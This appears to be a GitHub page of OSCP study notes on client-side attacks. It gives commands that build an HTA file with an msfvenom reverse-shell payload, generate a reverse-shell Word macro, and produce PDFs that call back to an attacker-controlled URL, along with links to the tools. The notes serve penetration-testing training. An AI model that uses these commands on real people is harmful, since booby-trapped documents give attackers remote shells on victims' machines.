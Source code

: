# OSCP Client-Side Attacks

## Introduction

## Table of Content
- [OSCP Client-Side Attacks](#oscp-client-side-attacks)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [HTA Attack in Action](#hta-attack-in-action)
  - [Microsoft Word Macro Attack](#microsoft-word-macro-attack)
  - [Malicious PDF](#malicious-pdf)

## HTA Attack in Action

-> Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

-> Creating a malicious .hta with msfvenom
```sh
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack
-> Generate a malicious macro for reverse shell in powershell using base64 for .doc
```python
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/


## Malicious PDF
-> Malicious PDF Generator
```sh
python3 malicious-pdf.py burp-collaborator-url
```
https://github.com/jonaslejon/malicious-pdf

-> evilpdf  
https://github.com/superzerosec/evilpdf
